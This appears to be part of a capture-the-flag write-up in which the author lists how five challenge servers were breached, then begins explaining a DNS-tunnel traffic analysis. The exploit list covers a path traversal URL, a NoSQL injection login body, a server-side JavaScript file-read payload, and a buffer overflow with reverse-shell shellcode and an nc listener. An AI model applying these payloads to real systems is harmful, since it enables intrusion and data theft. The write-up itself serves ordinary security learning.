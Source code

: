8. The five gnomes were exploited as follows. Note that anywhere "gnome.conf" is mentioned this can be repeated for all the six files:
	1. Simply log in with (admin/SittingOnAShelf) and download the files in the files menu.
	2. This is a two step attack in which the second step is repeated for all six files:
		a. Upload settings file with name ".png/whatever". This creates the directory "gnome/www/public/upload/llCkTnXD/.png/".
		b. "http://52.34.3.80/cam?camera=../../public/upload/llCkTnXD/.png/../../../../files/gnome.conf"
	3. Login using a JSON encoded POST body with the following content, then simply download the files from the files menu:
	> {
	>   "username": "admin",
	>   "password": {"$gt": ""}
	> }
	4. Upload any dummy png file with the "postproc" form field set to "new Buffer(fs.readFileSync('/gnome/www/files/gnome.conf')).toString('base64')" This will give you back a string which can then be base 64 decoded to get the file. Repeat this for all six files. 
	5. First we prepare our reverse shell by running the following command which will send back a base64 encoded file to us:
	> echo "cat /gnome/www/files/gnome.conf | base64" | nc -l 55555 | base64 -d > gnome.conf  

		Then we connect to the service and send "X\n" to the server to get to the secret command. Then we send a payload consisting of the following parts.
		
		1. 103\*A, this is just garbage to start overflowing the buffer.
		2. 0xe4ffffe4, to repair the stack canary.
		3. 4\*A, to pad before the return address.
		4. 0x0804936b, which is the location of "jmp esp" to jump the instruction pointer back to our shellcode
		5. The actual shellcode which connects back to port 55555 on my IP with a reverse shell
		6. 100\*A, to make sure we send at least 200 characters so that the receive function returns quickly

9. The plan is to hire burglars to steal the christmas from people all over the world on Christmas eve as a revenge for a traumatic childhood event.

10. ATNAS Corp, Cindy Lou Who

## Explanations and method

Now I will go through the process I little more in detail to explain how I managed to arrive at those answers.

### Part 1: Network analysis
First, I used Wireshark to look at the PCAP file.
Here, the DNS conversations are clearly shown.
Looking at the TXT fields in the Wireshark decoder it was easy to see that data was being sent back and forth.

Secondly, I looked at the provided script and played around with it to decode some of the data being sent.
I doscovered the "NONE", "EXEC" and "FILE" keywords and also the "START\_STATE" and "END\_STATE" delimiters.
With this knowledge, I extended the script to create a small parser for the protocol.
